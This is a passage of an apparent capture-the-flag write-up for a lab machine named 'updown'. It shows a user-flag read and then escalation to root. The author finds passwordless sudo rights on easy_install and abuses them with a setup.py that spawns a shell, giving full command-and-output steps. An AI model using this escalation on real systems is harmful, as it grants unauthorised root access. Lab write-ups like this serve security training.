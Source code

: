 ```bash
8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36

developer@updown:~$ cat user.txt
REDACTED
```


## Getting root

Escalating to root was very easy. I checked if I could run anything with `sudo`. 

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install

developer@updown:~$ ls -l /usr/local/bin/easy_install
-rwxr-xr-x 1 root root 229 Aug  1 18:07 /usr/local/bin/easy_install

developer@updown:~$ file /usr/local/bin/easy_install
/usr/local/bin/easy_install: Python script, ASCII text executable

developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

I searched for exploits in [easy_install](https://packaging.python.org/en/latest/key_projects/#easy-install) and found one on [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/) that created a fake local package with code executed on installation.

```bash
developer@updown:~$ TF=$(mktemp -d)

developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py

developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.YeeqjgELbW
Writing /tmp/tmp.YeeqjgELbW/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.YeeqjgELbW/egg-dist-tmp-7F9vet

# whoami
root

# cat /root/root.txt
```